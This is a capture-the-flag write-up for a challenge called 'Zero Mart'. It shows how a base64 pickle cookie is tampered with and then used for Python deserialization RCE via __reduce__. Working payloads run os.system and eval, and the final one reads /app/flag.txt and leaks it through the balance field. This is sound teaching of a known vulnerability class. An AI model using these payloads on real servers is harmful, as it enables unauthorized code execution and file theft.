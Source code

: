 # Zero Mart

> APOCALYPSE has recently started ZeroMart, which is a service that lets their agents redeem the latest 0-day exploits with their credits. Seems like their members have been accessing their underground service by using a client program that has been given to them. We've managed to get our hands on the client, so can you try and infiltrate their system? The server runs python 3.7

>  Note: flag.txt is located at `/app/flag.txt`. Also you might need to install the python requests library to get the client running.

Here's an abbreviated version of the attached `client.py`:

```python
session = requests.Session()
r = session.get(ENDPOINTS['init'])
balance = r.json()['balance']
shop = r.json()['shop']
while True:
    menu()
    choice = input('Choice: ')
    r = session.post(ENDPOINTS['buy'], json={'item': choice})
    print(f"[+] {r.json()['message']}")
    if 'balance' in r.json().keys():
        balance = r.json()['balance']
    input('Press Enter to continue...')
```

Initially, the balance starts off at 1 credit. A large amount of credits is required to buy other items, but `Chipusuketo` can be bought with just 1 credit.

```
HaatoBurido (31337 Credits)
Pudoru (31337 Credits)
Merutodaun (31337 Credits)
Rouhanma (31337 Credits)
Sherushoku (31337 Credits)
Etanaruburu (31337 Credits)
Chipusuketo (1 Credits)
```

After buying `Chipusuketo`, we observe that the balance decreases to zero and we're no longer allowed to buy anything. So the balance information must be stored somewhere. But where? Sending the request in Postman reveals a cookie `zero_mart_data="gAN9cQBYBwAAAGJhbGFuY2VxAUsBcy4="`. This is clearly Base64 data, but decoding it produces a bunch of unreadable characters.

## Pickles

However, given that the server uses python, we may guess that [python pickles](https://docs.python.org/3/library/pickle.html) have been used to store the data. (This is reinforced by the fact that there is a specific python 3.x version stated, as pickles created with one version may not be decodable by others) Decoding the pickle using `pickle.loads`:

````python
import pickle
import base64

print(pickle.loads(base64.b64decode("gAN9cQBYBwAAAGJhbGFuY2VxAUsBcy4=")))
# => {'balance': 1}
````

Now we know how the data is encoded, we change the balance to whatever we want. For example:

```python
def make_cookie(data):
    c = str(base64.b64encode(data))[2:-1]
    return '"' + c + '"'

pic = pickle.dumps({"balance":696969})

session.cookies.set('zero_mart_data', make_cookie(pic),
                        domain="aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg")
```

This allows us to buy whatever we want, but we still can't get the flag. We will need to think of something more advanced.

## RCE using pickle

Note: See [Exploiting Python pickles - David Hamann](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for an in-depth explanation

While pickle is frequently used to store python objects in a binary format, deserializing arbitrary pickles is very dangerous and can actually lead to remote code execution. Let's see how this works.

```python
import pickle

class Exploit:
    def __reduce__():
        return print, ("Hello, world",)
    
pic = pickle.dumps(Exploit())
data = pickle.loads(pic)
# => Prints "Hello, world"
print(data)
# => None
```

Python's pickle module allows us to customize what will happen when a pickle is deserialized. This is specified through the `__reduce__` method in a class. When an instance of `Exploit` is pickled, the `__reduce__` function is called. The `__reduce__` function should return a tuple of 2 items, a function and a tuple of arguments. Pickle stores these in the pickle. When `pickle.loads` is called, the function stored in the pickle is called with the arguments specified. Thus, in this case, `print("Hello, world")` is executed. The return value of `pickle.loads` is the return value of the function called, which is `None` in the case of `print`.

One benefit of pickle is that you can store pretty much any function, including Python module functions that are not currently imported. For example,

```python
import os
class Exploit:
    def __reduce__():
        return os.system, ("ls",)
    
pic = pickle.dumps(Exploit())
```

If `pickle.loads(pic)` is executed in another python environment, even without `import os`, the `ls` command would still be run.

## Getting the flag

However, even once we get RCE, it's still not game over yet. If we used the exploit from above, the server returns a `Internal Server Error` instead of listing any files. This is probably because the server does something like

```python
data = pickle.loads(cookie)
balance = data["balance"]
```

Because `os.system("ls")` returns `0`, and `0` is not a dictionary, the process crashes. During the CTF, I tried several different ways of exfiltrating the flag from the server, such as reverse shell and HTTP requests but none were successful :<.

The challenge authors may have decided to make it harder by blocking all network connections out of the service^. Anyway, we can still transfer data out through the service itself.

```python
class Exploit:
    def __reduce__():
        return eval, ('{"balance":1+1}',)
    
pic = pickle.dumps(Exploit())
```

In Python (and several other languages), `eval` executes the string it is passed as Python code. In this case, `pickle.loads` returns `{"balance": 2}`. This is displayed to us as the number of credits left after a transaction. Since we can control how `balance` is computed, we can try to use this to encode the flag. But how do we encode a string as an integer? There are many ways of varying complexity, but one of the simplest and most straightforward is to concatenate the binary ASCII values of each character together and parse it as a single integer. Here's some code for doing that:

```python
def bytes_to_int(b):
    return int("".join([bin(x)[2:].zfill(8) for x in b]),2)

def int_to_bytes(inp):
    # Higher order bit of ASCII is zero
    bstr = "0" + bin(inp)[2:]
    chunks = [int(bstr[i:i+8], 2) for i in range(0, len(bstr), 8)]
    return "".join([chr(x) for x in chunks])
```

The final payload:

```python
class Exploit:
    def __reduce__(self):
        return eval, ('{"balance": int("".join([bin(x)[2:].zfill(8) for x in open("/app/flag.txt", "rb").read()]), 2)}',)


pic = pickle.dumps(Exploit())
session.cookies.set('zero_mart_data', make_cookie(pic), domain="aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg")

r = session.post(ENDPOINTS['buy'], json={'item': "Chipusuketo"})
balance = r.json()['balance'] + 1
print(int_to_bytes(balance))
# => Cyberthon{1r0n1c_h0w_z3r0_m4rt_h45_4_z3r0_d4y}
```

While I didn't solve this challenge within the CTF, it's still an interesting challenge that required me to think out of the box.

^ Network connections out of the service weren't actually blocked. I probably just had a problem getting a reverse shell to work.